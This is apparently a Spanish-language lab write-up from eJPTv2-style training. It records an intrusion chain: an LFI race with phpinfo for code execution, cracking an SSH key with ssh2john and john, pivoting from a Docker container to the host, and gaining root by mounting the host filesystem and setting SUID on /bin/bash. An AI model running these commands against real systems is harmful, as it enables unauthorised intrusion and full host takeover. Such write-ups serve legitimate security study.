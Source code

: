 - Buscamos por sexe.txt y nos encontramos un archivo -->    [tmp_name] =&gt; **/tmp/phpGFi9Kc**
>Vemos esto en el apartado --> $\_FILES['file']
- Significa que tiene nombre temporal por lo que necesitaríamos visitarlo a la vez que se crea

>con este script lo logramos [phpinfoLFI](https://insomniasec.com/downloads/publications/phpinfolfi.py)
>Aunque lo hemos modificado para que quede bien con todos los parámetros [phpinfoLfiRcelocal](D:\Training\eJPTv2\Payloads\LfiRce.py)

- Ganamos acceso pero resulta que estamos en un docker
```bash
hostname
hostname -I
cat /proc/net/arp 
arp -n
```

- Encontramos en **~/** un archivo .oldkeys.tgz y lo descomprimimos, encontramos una clave ssh
- **ssh2john** se encarga de convertirla a hash
```bash
ssh2john id_rsa > hash
sudo john --wordlist=rockyoureducido.txt --format=SSH hash  
root:choclate93
```
- Para saber si un proceso por un puerto está corriendo PJ: 22
```bash
echo '' > /dev/tcp/ip/22
```


- Entonces vemos la carpeta **.ssh** y vamos a ver cuáles son sus **known_hosts**
```bash
cat known_hosts 
ssh admin@192.168.150.1  
#Entramos con la misma password choclate93
```

- Hemos hecho es ssh a la máquina real pero por su **interfaz de docker**
- Pasamos a la escalada de privilegios de **root**
```bash
#Vemos a qué grupos pertenecemos o qué podemos hacer
sudo -l -l
id
groups
```

-  Pertenecemos a docker hacemos **montura**
```bash
docker images
docker ps -a
docker run -dit -v /:/mnt/root --name privesc ubuntu
docker exec -it privesc bash
cd /mnt/root/bin
chmod u+s bash
exit
#Dentro de la máquina veo si la bash tiene u+s
ls -la /bin/bash
bash -p
```

